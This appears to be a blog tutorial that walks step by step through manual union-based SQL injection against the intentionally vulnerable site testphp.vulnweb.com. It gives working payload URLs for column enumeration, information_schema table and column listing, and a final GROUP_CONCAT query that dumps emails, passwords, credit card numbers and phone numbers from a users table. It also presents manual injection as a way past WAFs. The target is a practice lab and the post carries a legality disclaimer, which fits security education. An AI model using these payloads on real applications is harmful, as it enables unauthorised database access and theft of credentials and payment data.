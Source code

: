 <h2>EXPLOITING UNION BASED SQL INJECTION MANUALLY</h2>

Hey Guys,

It's [0xvenus](https://twitter.com/0x_venus) again

HERE I SHOWCASE HOW TO PERFORM A BASIC UNION BASED SQL INJECTION (MANUALLY)

KINDLY CHECK NEXT POST FOR ADVANCED UNION BASED SQLI WHERE I SHOWED HOW TO BYPASS SOME WAFS AND FILTERS

``Performing a Union-Based SQL Injection attack manually involves injecting a crafted payload into an input field or parameter to manipulate a SQL query and retrieve unauthorized data from the database. Please note that attempting SQL injection on systems you don't own or have explicit permission to test is illegal and unethical. Only perform these actions in a controlled, legal environment with proper authorization.``

Target: https://testphp.vulnweb.com/ (intentionally vulnerable site created for testing purpose)

**STEP 1:**

``Finding the injection point: we can simply find the injection point of a site by dorking for parameters with value``

dork example: ``site:testphp.vulnweb.com inurl:php?``. There are many dorks online you can search for more.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/71e2cbe6-2ad8-4704-b9f3-58d3157b6528)

clicking on any of those pages in the result should reveal the directory with parameter.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/58b964c7-9ede-40cd-8e2a-d4d19d435995)

As you can see we have a parameter and a value which we can then confirm the vulnerabilty

**STEP 2**

``Confirming the vulnerability: we can easily confirm the vulnerability by throwing a single quote or double quotes at the end of the parameter``
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c2ec9d8-c6ee-4f2f-b026-fbcf65108af6)
As you can see it throws an SQL error which confirms the vulnnerability

**STEP 3**

``Adding a URL balancer(comment) to fix the error: well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working.``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3541e6aa-8396-4dd6-aa65-7e5c2ad6f094)

No error after addiing the balancer. We can now proceed to the next step

**STEP 4**

``Finding the total number of columns present in the database``

we can easily use the ``order by`` or ``group by`` statement


![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7f4aa84f-1f38-4a27-93d0-bab8aa9edb5f)

``order by 1`` didn't give error so we will keep increasing the number till we get error

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/29c929b1-85e3-4ca2-a288-994ec005e33f)

``order by 1000`` showed errors which means we dont have up to 1000 columns in the database

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/450dfa62-b496-41ca-826f-16caef47db97)

increasing the number i got error at ``order by 4`` which shows we have 3 columns present in the database


**STEP 5**

``Finding the vulnerable column: we will be injecting our SQL payloads in the vulnerable column``
 
 we can get the vulnerable column by adding a dot or a slash before the parametre value combined with the ``union select statement``
 
 ```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3```

***Note the - after the = sign*** or using the ``AND statement`` and a false statement like ``1=5`` before the ``union select``

E.G ``http://testphp.vulnweb.com/artists.php?artists=1 AND 2=5 union select 1,2,3`` 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/25527c10-1785-4f3b-b1d6-814f4f97dd47)
Those numbers showing on the screen are the vulnerable columns so, you can choose the one you prefer for the injection

i will be choosing column 2 here.

**STEP 6**

``getting the database name and version: you can get the database version by inputing the @@version or version() and for db name database() in the vulnerable column``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e600515b-3169-4dcc-9ee9-aafc8d6b7fe5)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/949e1917-e5e6-4667-aa93-d6b6ae8d4525)

```http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,version(),3```


**STEP 7**


``getting table names``

we can get the table names one by one by using the query  ``table_name``  in the vulnerable column and then adding ``from information_schema.tables where table_schema=database() limit 0,1`` at the end of the query


```First row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1```

```Second row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1```

```Third row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1```

```Forth row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 3,1```

and so on.



Stressful right? lol i've gat your back mate


we can easily dump the table names once using the ``concat`` statement


```(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=DATABASE())```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3d3ba4ed-842f-4f99-8668-f5dd9180e4bc)

cool we have the table names in a single shot

**STEP 8**

``getting the column names: we can get the columns in a table we want``

```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,column_name,3 from information_schema.columns where table_schema=database() and table_name='users' limit 0,1```

Here i tried getting the columns in the *users* table 

NB: remember to keep increasing the number of limit after the query

so to get the columns in a shot we can use

```(SELECT+GROUP_CONCAT(column_name+SEPARATOR+'::')+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE())```

NB: set the value of the TABLE_NAME= to the table you are trying to get its columns

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c70af46f-e483-4d4e-a33a-88a78bd5524e)

As you can see we have the columns in the users table which are emails,creditcards,address,password e.t.c

```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(column_name+SEPARATOR+%27::%27)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE()),3```

let's proceed to the next step

**STEP 9** 

``dumping the juicy contents of the database like here we have columns; passwords,emails,creditcards e.t.c in the users table``


```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(email,'::',%20pass,'::',%20name,'::',%20cc,'::',uname,'::',%20phone%20+SEPARATOR+'::')+FROM+users%20),3```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4c5bc588-ce79-42e1-88a0-0d81313663af)

NB: i added the column names in a table to be able to dump it contents

so, note down the columns a table name then replace them in the payload.


`Ps: union based SQLi is helpful because sqlmap cant bypass all Wafs and filters but you can, the success rate in dumping the database is high by doing it manually`


Thanks 

reach out to me on [Twitter](https://twitter.com/0x_venus) for any question

see you in the next post.























